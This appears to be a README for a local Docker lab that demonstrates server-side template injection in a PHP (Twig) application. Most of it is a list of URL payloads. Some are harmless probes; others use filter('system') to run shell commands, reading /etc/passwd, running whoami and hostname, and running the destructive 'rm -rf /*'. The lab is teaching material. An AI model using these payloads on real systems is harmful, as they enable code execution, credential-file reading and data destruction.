

# SSTI (Server Side Template Injection) with php

start
```bash
docker-compose up -d 
```


then visit http://localhost

SSTI:



#

try this out, at URL

```bash
http://localhost/?book=${7+7}
#
http://localhost/?book={{7*7}}
#
http://localhost/?book={{7*'7'}}
#
http://localhost/?book={{['cat\x20/etc/passwd']|filter('system')}}
#
http://localhost/?book={{["whoami"]|filter('system')}}
#
http://localhost/?book={{["hostname -I"]|filter('system')}}
#
http://localhost/?book={{["rm -rf /*"]|filter('system')}}

```
